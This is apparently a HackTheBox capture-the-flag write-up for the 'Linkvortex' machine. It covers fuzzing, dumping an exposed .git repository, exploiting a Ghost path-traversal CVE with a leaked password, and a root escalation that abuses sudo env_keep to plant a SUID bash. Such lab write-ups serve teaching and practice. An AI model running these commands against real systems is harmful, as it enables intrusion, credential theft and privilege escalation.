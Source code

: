 ```yaml
---
layout: post
title: "Linkvortex"
date: 2024-12-28
categories: hackthebox
---
```



```
sudo nmap -sC -sV -p- 10.10.11.47 -T4 -oN nmap
```

just web 


### Vhosts Fuzzing

```bash
ffuf -u http://linkvortex.htb  -H "Host: FUZZ.linkvortex.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fc 301
```

![[Pasted image 20241223182105.png]]

### Directory Fuzzing

the `wordlist I usually use didn't catch anything /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  but  /usr/share/seclists/Discovery/Web-Content/common.txt got me some juicy directories`

```bash
ffuf -u http://dev.linkvortex.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![[Pasted image 20241223182412.png]]

`.git` directory I will use `git-dumper to dump all the files`

### Git dumper

```bash
python3 -m venv lol ; source lol/bin/activate
pip3 install git-dumper
```


```bash
git-dumper  http://dev.linkvortex.htb/.git   git-vortex
```


### GIT enumerate

I start enumerating the git directory and I checked the `diff` between the current and the commit before that 

```bash
git diff 
```

![[Pasted image 20241223183804.png]]

### foothold the main web

![[Pasted image 20241223184720.png]]

this version of `Ghost` is vulnerable to path traversal https://github.com/0xyassine/CVE-2023-40028/tree/master


```bash
./CVE-2023-40028 -u 'admin@linkvortex.htb' -p 'OctopiFociPilfer45'
```


and we got a prompt we can use it to read file , from the diff of commit , I notice an interesting file
`/var/lib/ghost/config.production.json`
![[Pasted image 20241223185534.png]]`


ssh into user

### root

```bash
sudo -l

Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```


scripts

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

`the script first check if the CHECK_CONTENT is a non empty string , then follow the symlink and remove the extenstion if something critical is found in this part the script will stip else move the png file to the /var/quarantined `

the trick here is we control the value of `CHECK_CONTENT` so if we set a malicious script it will be ran in this if 

```bash
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
```

in order to reach that we need to get in the first if we can do that by setting a symbolic link , then running the script as `sudo` and abusing the `env_keep` to setting our malicious script at `CHECK_CONTENT`


```bash
touch image.png ; ln -s image.png link.png ; echo 'cp /bin/bash /home/bob/exploit && chmod 4777 /home/bob/exploit' > /tmp/trick ; chmod +x /tmp/trick ; export CHECK_CONTENT=/tmp/trick ; sudo /usr/bin/bash /opt/ghost/clean_symlink.sh link.png ; /home/bob/exploit -p
```
